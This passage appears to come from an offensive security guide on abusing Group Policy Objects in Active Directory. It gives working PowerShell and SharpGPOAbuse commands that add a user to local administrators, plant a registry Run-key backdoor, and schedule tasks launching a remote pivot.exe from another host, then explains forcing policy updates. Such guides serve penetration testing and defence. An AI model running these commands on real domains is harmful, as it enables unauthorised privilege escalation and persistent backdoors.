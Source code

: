 ```bash
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```

### GroupPolicy module - Abuse GPO

The GroupPolicy module, if installed, allows for the creation and linking of new GPOs, and setting preferences such as registry values to execute backdoors on affected computers. This method requires the GPO to be updated and a user to log in to the computer for execution:

```bash
New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=domain,DC=io"
Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min \\dc-2\software\pivot.exe" -Type ExpandString
```

### SharpGPOAbuse - Abuse GPO

SharpGPOAbuse offers a method to abuse existing GPOs by adding tasks or modifying settings without the need to create new GPOs. This tool requires modification of existing GPOs or using RSAT tools to create new ones before applying changes:

```bash
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"
```

### Force Policy Update

GPO updates typically occur around every 90 minutes. To expedite this process, especially after implementing a change, the `gpupdate /force` command can be used on the target computer to force an immediate policy update. This command ensures that any modifications to GPOs are applied without waiting for the next automatic update cycle.

### Under the Hood

Upon inspection of the Scheduled Tasks for a given GPO, like the `Misconfigured Policy`, the addition of tasks such as `evilTask` can be confirmed. These tasks are created through scripts or command-line tools aiming to modify system behavior or escalate privileges.

The structure of the task, as shown in the XML configuration file generated by `New-GPOImmediateTask`, outlines the specifics of the scheduled task - including the command to be executed and its triggers. This file represents how scheduled tasks are defined and managed within GPOs, providing a method for executing arbitrary commands or scripts as part of policy enforcement.

### Users and Groups

GPOs also allow for the manipulation of user and group memberships on target systems. By editing the Users and Groups policy files directly, attackers can add users to privileged groups, such as the local `administrators` group. This is possible through the delegation of GPO management permissions, which permits the modification of policy files to include new users or change group memberships.

The XML configuration file for Users and Groups outlines how these changes are implemented. By adding entries to this file, specific users can be granted elevated privileges across affected systems. This method offers a direct approach to privilege escalation through GPO manipulation.
